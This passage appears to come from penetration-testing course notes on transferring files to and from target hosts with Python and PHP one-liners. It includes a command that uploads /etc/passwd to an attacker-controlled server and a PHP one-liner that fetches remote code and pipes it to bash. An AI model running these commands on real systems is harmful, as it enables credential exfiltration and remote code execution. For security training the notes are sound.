         - PHP: `php -S 0.0.0.0:8000`.
        - Ruby: `ruby -run -e httpd . -p8000`.
        - Download from Pwnbox: `wget <IP>:8000/<file>`.
    - **Advantages**: Flexible, lightweight options.
    - **Pitfalls**: Inbound traffic to non-standard ports may be blocked.
    - **Tip**: Move files to an existing web server directory if available.

---

### Transferring Files with Programming Languages

### Overview

- **Context**: Programming languages like Python, PHP, Perl, Ruby, JavaScript, and VBScript are often available on target systems and can be repurposed for file transfers.
- **Advantage**: One-liners or short scripts can bypass restrictions where traditional tools (e.g., wget, PowerShell) are blocked.

### Python

- **Availability**: Common on Linux; less so on Windows unless installed. Python 2.7 (legacy) and Python 3.x (current) differ slightly in syntax.
- **Execution**: Use `c` flag for one-liners from the command line.
- **Examples**:
    - **Download (Python 2.7)**:
        - `python2.7 -c 'import urllib; urllib.urlretrieve("<https://raw.githubusercontent.com/><path>", "file")'`.
        - Downloads a file from a URL to the specified local path.
    - **Download (Python 3)**:
        - `python3 -c 'import urllib.request; urllib.request.urlretrieve("<https://raw.githubusercontent.com/><path>", "file")'`.
        - Updated module (`urllib.request`) for Python 3 compatibility.
    - **Upload (Python 3 with `requests`)**:
        - Setup server: `python3 -m uploadserver` (runs on port 8000).
        - One-liner: `python3 -c 'import requests; requests.post("http://<IP>:8000/upload", files={"files": open("/etc/passwd", "rb")})'`.
        - Breakdown:
            - Import `requests` module.
            - Open file in binary mode (`rb`).
            - Send POST request with file attached.
- **Pitfalls**: Requires Python and relevant modules (e.g., `requests` for uploads); blocked by strict egress filtering.
- **Tip**: Verify file integrity with `md5sum` post-transfer.

### PHP

- **Availability**: Prevalent on web servers (77.4% of known server-side languages per W3Techs).
- **Execution**: Use `r` flag for one-liners.
- **Examples**:
    - **Download with `file_get_contents()`**:
        - `php -r '$file = file_get_contents("<https://raw.githubusercontent.com/><path>"); file_put_contents("file", $file);'`.
        - Fetches content and writes it to a local file.
    - **Download with `fopen()`**:
        - `php -r 'const BUFFER = 1024; $fremote = fopen("<https://raw.githubusercontent.com/><path>", "rb"); $flocal = fopen("file", "wb"); while (!feof($fremote)) { fwrite($flocal, fread($fremote, BUFFER)); } fclose($fremote); fclose($flocal);'`.
        - Streams content in chunks (1024 bytes) for efficiency.
    - **Fileless Execution**:
        - `php -r '$lines = @file("<https://raw.githubusercontent.com/><path>"); foreach($lines as $line) { echo $line; }' | bash`.
        - Pipes downloaded content to Bash (requires `fopen` wrappers enabled).
- **Pitfalls**: Requires PHP CLI; web filters may block URLs.
- **Tip**: Use `@` to suppress errors if URL access fails.
